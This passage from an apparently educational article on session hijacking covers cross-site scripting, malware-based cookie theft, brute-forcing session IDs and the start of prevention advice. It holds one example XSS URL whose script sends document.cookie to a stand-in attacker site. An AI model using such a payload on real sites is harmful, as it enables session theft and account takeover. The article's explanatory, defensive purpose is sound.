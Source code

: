 Server or application vulnerabilities are exploited to inject client-side scripts (usually JavaScript) into webpages, leading the browser to execute the code when it loads the compromised page. If the server doesn’t set the HttpOnly attribute in session cookies, then malicious scripts can get at your session ID.

An example of a cross-site scripting attack to execute session hijacking would be when an attacker sends out emails with a special link to a known, trusted website. The catch, however, is that the link also contains HTTP query parameters that exploit a known vulnerability to inject a script.

For session hijacking, the code that’s part of the XSS attack could send the victim’s session key to the attacker’s own site. For example:

http://www.yourbankswebsite.com/search?<script>location.href=’http://www.evilattacker.com/hijacker.php?cookie=’+document.cookie;</script>

Here the document.cookie command would read the current session cookie and send it to the attacker via the location.href command. This is a simplified example, and in a real-world attack the link would most likely employ character encoding and/or URL shortening to hide the suspicious portions of the link.

Malware
Malware and other malicious third-party programs can also lead to session hijacking. Hackers design the malware to perform packet sniffing and set it to specifically look for session cookies.  When it finds one, it then steals it and sends it to the attacker.  The malware is basically carrying out an automated session sniffing attack on the user. 

Another more direct method of stealing session IDs is to gain access to the user’s machine, whether via malware or by directly connecting to it locally or remotely.  Then, the attacker can navigate to the temporary local storage folder of the browser, or “cookie jar”, and whichever cookie they want.

Brute Force
Lastly, a hacker can attempt to determine the session ID on their own.  This can be achieved by one of two methods.  First, they can try to guess the session ID.  This can be successful if the session ID is based on an easily predictable variable (as we touched on earlier) such as the user’s IP address or the current time or date.  Sequential session IDs were often used in the early days of the web but are rarely used anymore due to their easily identifiable patterns. 

A brute force attack can also be used, in which an attacker attempts to use various session IDs over and over again from a set list.  This is really only a feasible means of session hijacking if the session ID format consists of a relatively short number of characters.

Both of these methods of attack can be easily mitigated by using the right algorithm for generating session IDs.  By using one that creates lengthy session IDs that consist of random letters and numbers, it will be nearly impossible for a hacker to perform session hijacking on your users.

How to Prevent Session Hijacking
While there are many different ways for hackers to carry out session hijacking attacks, the good news is that there are relatively simple security measures and best practices you can employ to protect yourself.  Different ones protect against different session hijacking methods, so you’ll want to enact as many of them as you can.  Here are some of the most common prevention measures that you’ll want to start with:

1.      Use HTTPS On Your Entire Site 
As we’ve seen, using HTTPS only on login pages won’t keep you fully keep you safe from session hijacking. Use SSL/TLS on your entire site, to encrypt all traffic passed between parties. This includes the session key. HTTPS-everywhere is widely used by major banks and ecommerce systems because it completely prevents sniffing attacks.
